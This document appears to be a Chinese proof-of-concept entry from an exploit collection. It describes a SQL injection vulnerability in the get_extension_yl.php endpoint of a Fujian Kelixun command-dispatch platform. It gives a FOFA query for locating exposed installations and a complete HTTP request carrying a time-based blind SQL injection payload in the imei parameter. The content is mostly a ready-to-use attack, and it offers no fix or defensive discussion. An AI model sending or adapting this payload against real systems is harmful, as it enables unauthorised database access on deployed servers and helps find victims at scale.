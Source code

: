 ## 福建科立讯通信指挥调度平台get_extension_yl.php存在sql注入漏洞

## fofa
```
body="app/structure/departments.php"||app="指挥调度管理平台"
```
## poc
```
GET /api/client/get_extension_yl.php?imei=1%27%20AND%20(SELECT%207545%20FROM%20(SELECT(SLEEP(5)))Zjzw)%20AND%20%27czva%27=%27czva&timestamp=1&sign=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: authcode=h8g9
Upgrade-Insecure-Requests: 1
```

![3973d557bffaa4172f8077fe5f50f364](https://github.com/wy876/POC/assets/139549762/ec6a38f0-74ff-4be7-a668-f1af3aa0722c)
